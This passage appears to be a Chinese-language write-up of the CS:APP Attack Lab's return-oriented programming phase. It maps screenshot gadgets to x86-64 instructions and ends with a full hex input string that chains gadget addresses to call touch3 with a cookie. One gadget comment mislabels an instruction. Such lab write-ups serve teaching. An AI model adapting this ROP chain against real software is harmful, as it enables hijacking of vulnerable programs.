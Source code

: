 ![image-20221022151855563](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022151855563.png)

这条对应着`popq %rax`。

![image-20221022152605783](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152605783.png)

这条对应着`movl %eax, %edx`。

![image-20221022151944854](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022151944854.png)

这条对应着`movl %edx, %ecx`。

![image-20221022152211616](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152211616.png)

这条对应着`movl %ecx, %esi`。

![image-20221022152243150](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152243150.png)

这条对应着`movq %rsp, %rax`。

![image-20221022152312843](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152312843.png)

这条对应着`movq %rax, %rdi`

![image-20221022152348317](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152348317.png)

这条对应着`lea (%rdi, %rsi, 1), %rax`。

![image-20221022152405944](http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221022152405944.png)

这条对应着`movq %rax, %rdi`。

<img src="http://shixiaozhong.oss-cn-hangzhou.aliyuncs.com/img/image-20221023095858489.png" alt="image-20221023095858489" style="zoom: 67%;" />

所以可以用这两条指令来完成攻击。上面是函数栈帧图，所以可以构建输入的16进制文件。

```cpp
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
    
ab 19 40 00 00 00 00 00					// popq %rax
20 00 00 00 00 00 00 00					// 偏移量为32个字节
dd 19 40 00 00 00 00 00 				// movl %eax, %edx
c5 19 40 00 00 00 00 00					// movl %rax, %rdi
70 1a 40 00 00 00 00 00					// movl %edx, %ecx
13 1a 40 00 00 00 00 00					// movl %ecx, %esi

06 1a 40 00 00 00 00 00					// movq %rsp, %rax
c5 19 40 00 00 00 00 00					// movq %rax, %rdi

d6 19 40 00 00 00 00 00					// lea(%rdi, %rsi, 1), %rax
c5 19 40 00 00 00 00 00					// movq %rax, %rdi

fa 18 40 00 00 00 00 00					// touch3
35 39 62 39 39 37 66 61 00				// cookie

```

---